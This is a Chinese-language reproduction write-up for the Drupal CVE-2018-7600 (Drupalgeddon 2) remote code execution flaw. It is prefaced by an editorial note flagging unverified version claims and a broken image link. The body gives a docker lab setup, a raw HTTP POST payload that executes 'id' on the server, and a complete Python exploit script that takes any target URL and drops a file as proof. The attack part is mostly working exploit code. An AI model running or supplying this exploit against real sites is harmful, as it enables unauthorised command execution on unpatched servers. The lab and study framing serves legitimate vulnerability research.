

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：7&lt;7.58;8.3&lt;8.3.9;8.4&lt;8.4.6;8.5&lt;8.5.1 stated; tested8.5.0 public registration

- **结论使用边界（1）**：Same PoC/script as114, adds branch bounds; formatting '8.x before8.3.9' potentially overbroad branch wording。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **代码与转录边界（2）**：Success image points to6920 YAML article resource and has malformed suffix; verify actual image content。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **证据待核（3）**：Marker-file HTTP200 oracle weak; source attribution external fork vs embedded original distinct。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞
=======================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套使用PHP语言开发的免费，开源的内容管理系统。版本受到影响：Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

二、漏洞影响
------------

Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

三、复现过程
------------

### 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7600](https://github.com/ianxtianxt/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：

    POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 103

    form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id

成功执行代码，这个代码最终执行了id命令：

DrupalDrupalgeddon2远程代码执行漏洞/media/rId27.png)

### **exploit.py**

    #!/usr/bin/env python3
    import sys
    import requests

    print ('################################################################')
    print ('# Proof-Of-Concept for CVE-2018-7600')
    print ('# by Vitalii Rudnykh')
    print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
    print ('# https://github.com/a2u/CVE-2018-7600')
    print ('################################################################')
    print ('Provided only for educational or information purposes\n')

    target = input('Enter target url (example: https://domain.ltd/): ')

    # Add proxy support (eg. BURP to analyze HTTP(s) traffic)
    # set verify = False if your proxy certificate is self signed
    # remember to set proxies both for http and https
    # 
    # example:
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    # verify = False
    proxies = {}
    verify = True

    url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
    payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

    r = requests.post(url, proxies=proxies, data=payload, verify=verify)
    check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
    if check.status_code != 200:
      sys.exit("Not exploitable")
    print ('\nCheck: '+target+'hello.txt')

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2018-7600/
